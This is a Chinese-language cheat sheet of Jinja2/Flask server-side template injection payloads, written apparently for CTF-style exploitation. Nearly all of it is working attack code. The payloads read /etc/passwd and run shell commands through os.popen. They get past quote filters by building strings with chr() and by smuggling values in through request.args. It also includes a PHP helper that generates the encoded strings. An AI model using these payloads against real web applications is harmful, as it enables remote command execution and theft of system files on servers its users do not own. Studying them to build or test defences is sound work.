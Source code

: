 等同于：

```javascript
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

**chr() 绕过:**

抓包，设置`[§0§]`，这里先爆破subclasses，获取subclasses中含有chr的类索引，然后用chr来绕过传参时所需要的引号，然后需要用chr来构造需要的字符

```
{{().__class__.__base__.__subclasses__()[§0§].__init__.__globals__.__builtins__.chr}} 
```

快速构造想要的ascii字符:

```javascript
<?php
$a = 'whoami';
$result = '';
for($i=0;$i<strlen($a);$i++)
{
 $result .= 'chr('.ord($a[$i]).')%2b';
}
echo substr($result,0,-3);
?>
//chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)
payload:
{% set chr = ().__class__.__base__.__subclasses__()[7].__init__.__globals__.__builtins__.chr %}{{().__class__.__base__.__subclasses__()[257].__init__.__globals__.popen(chr(119)%2bchr(104)%2bchr(111)%2bchr(97)%2bchr(109)%2bchr(105)).read()}}
```

**过滤引号 "、'**

`request.args` 是 `flask `中的一个属性，为返回请求的参数，这里把 `path `当作变量名，将后面的路径传值进来，进而绕过了引号的过滤。

```
{{()**.**__class__**.**__bases__**.**__getitem__(0)**.**__subclasses__()**.**pop(40)(request**.**args**.**path)**.**read()}}    ----->   **&**path**=/**etc**/**passwd
```

- 利用request对象绕过：

flask中存在着request内置对象可以得到请求的信息，request可以用5种不同的方式来请求信息，我们可以利用他来传递参数绕过

```javascript
request.args.name
request.cookies.name
request.headers.name
request.values.name
request.form.name
```

- GET方式，利用request.args传递参数

```javascript
{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd
```

